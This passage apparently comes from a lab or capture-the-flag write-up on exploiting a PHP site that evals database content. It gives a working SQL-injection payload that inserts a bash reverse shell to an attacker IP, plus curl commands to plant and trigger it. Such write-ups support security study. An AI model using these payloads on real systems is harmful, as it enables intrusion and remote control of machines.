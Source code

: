I attempted to write some files, but it fails:

<figure><img src="../../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

So writing webshells won't work. When I looked at the code again, I saw that it was using `eval()` after the `get_page` function returns. This means that if we can somehow make the function return PHP code, it would be executed in `eval()`.&#x20;

{% embed url="https://stackoverflow.com/questions/23862873/can-you-sql-inject-a-php-variable-comparison" %}

We know that the database is called `webpages`, and that there are 2 columns in it called `page_data` and `route_string`. Using this knowledge, let's try `INSERT INTO` to get RCE.

I tried creating a new directory with one PHP payload on it:

{% code overflow="wrap" %}
```sql
";INSERT INTO webpages(route_string, page_data) VALUES ('/rev', 'echo shell_exec("bash -i >& /dev/tcp/192.168.45.227/80 0>&1");'); --

## after URL encoding
%22%3BINSERT%20INTO%20webpages%28route_string%2C%20page_data%29%20VALUES%20%28%27%2Frev%27%2C%20%27echo%20shell_exec%28%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.227%2F80%200%3E%261%22%29%3B%27%29%3B%20--
```
{% endcode %}

Then visit `index.php` with that payload and visit `/rev`.&#x20;

{% code overflow="wrap" %}
```bash
$ curl http://192.168.157.162/%22%3BINSERT%20INTO%20webpages%28route_string%2C%20page_data%29%20VALUES%20%28%27%2Frev%27%2C%20%27echo%20shell_exec%28%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.227%2F80%200%3E%261%22%29%3B%27%29%3B%20--

$ curl http://192.168.157.162/rev
```
{% endcode %}

We would then get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>
